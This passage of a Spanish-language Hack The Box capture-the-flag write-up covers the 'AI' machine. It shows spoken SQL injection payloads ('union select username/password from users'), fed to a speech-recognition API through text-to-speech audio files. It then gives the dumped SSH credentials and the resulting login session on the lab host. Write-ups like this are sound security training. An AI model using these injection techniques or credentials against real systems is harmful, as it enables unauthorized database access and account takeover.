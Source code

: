 Al mirar el contenido de ```intelligence.php```, es fácil notar que es la API de la AI, y esto es útil, ya que nos da base para saber como deberíamos de interactuar con la AI para armar la inyección que se precisa.

{{< image src="/images/htb/ai/2.1-rce-2.png" position="center" style="border-radius: 8px;" >}}

Después de un montón de prueba-error (que no está de más decir, si no fuese por la ayuda/guía de [Interep](https://www.hackthebox.eu/profile/10423) tanto con TTS o la query, no sé si iba a ir mucho más lejos :P), como no soy un habnlante nativo de inglés (ni tampoco tener micrófono), fue por eso la decisión de usar un TTS, con el que me terminé quedando fue con [Text 2 Speech](https://www.text2speech.org/):

{{< image src="/images/htb/ai/t2s.png" position="center" style="border-radius: 8px;" >}}

Las queries conseguidas al final, son así:

```
User:
Open single quote union select, username from users Comment Database
Password:
Open single quote union select, password from users Comment Database
```

Y una vez que se suben los respectivos.wav generados por el TTS que comenté arriba, se consiguen los siguientes resultados:

{{< image src="/images/htb/ai/command-ok-1.png" position="center" style="border-radius: 8px;" >}}

{{< image src="/images/htb/ai/command-ok-2.png" position="center" style="border-radius: 8px;" >}}


Se intenta loguearse a ssh con esas credenciales:

```
user: alexa
passwd: H,Sq9t6}a<)?q93_
```

Exito!!

```console
root@kali:~/Documents/HTB/boxes/medium/linux/ai# ssh alexa@10.10.10.163
alexa@10.10.10.163's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.3.7-050307-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Feb  7 20:27:47 UTC 2020

  System load:  0.14               Processes:           162
  Usage of /:   28.0% of 19.56GB   Users logged in:     1
  Memory usage: 27%                IP address for eth0: 10.10.10.163
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

63 packages can be updated.
15 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Feb  7 20:14:41 2020 from 10.10.14.29
alexa@AI:~$ wc -c user.txt
```